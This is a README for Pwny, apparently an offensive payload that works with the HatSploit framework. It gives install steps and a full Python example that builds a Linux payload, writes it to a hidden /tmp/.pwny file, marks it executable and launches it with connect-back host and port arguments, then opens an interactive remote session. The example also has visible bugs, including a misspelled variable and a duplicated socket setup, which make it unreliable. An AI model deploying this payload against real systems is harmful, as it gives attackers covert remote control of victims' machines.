 # Pwny

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/Pwny">
        <img src="https://img.shields.io/badge/language-C-grey.svg">
    </a>
    <a href="https://github.com/EntySec/Pwny/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/Pwny?color=yellow">
    </a>
</p>

Pwny is an implementation of an advanced native-code HatSploit payload, designed for portability, embeddability, and low resource utilization.

## Installing

You should install HatSploit to get Pwny, because Pwny depends on HatSploit Framework.

```
pip3 install git+https://github.com/EntySec/HatSploit
```

**NOTE:** Do not install Pwny directly from this repository, because it should be installed by HatSploit.

## Basic usage

To use Pwny and build payloads you should import it to your source.

```python3
from pwny import Pwny
from pwny import PwnySession
```

To build payload, you should call `pwny.get_payload()`.

```python3
from pwny import Pwny

pwny = Pwny()
payload = pwny.get_payload('linux', 'x64')
```

Full example of how Pwny can be used out of HatSploit.

```python3
import socket

from pwny import Pwny
from pwny.session import PwnySession

CONNBACK_HOST = '192.168.1.95'
CONNBACK_PORT = '8888'

pwny = Pwny()

session = PwnySession()
session.details['Platform'] = 'linux'

payload = pwny.get_payload('linux', 'x64')
args = pwny.encode_args(CONNBACK_HOST, CONNBACK_PORT)

instructions = (
    "cat >/tmp/.pwny;"
    "chmod 777 /tmp/.pwny;"
    f"sh -c '/tmp/.pwny {args} &'"
)

socket = socket()
socket.bind(('0.0.0.0', 8888))
socket.listen(1)

client, address = socket.accept()

client.send(instructions.encode())
cleint.send(payload)

socket = socket()
socket.bind(('0.0.0.0', 8888))
socket.listen(1)

session.open(client)
session.interact()
```
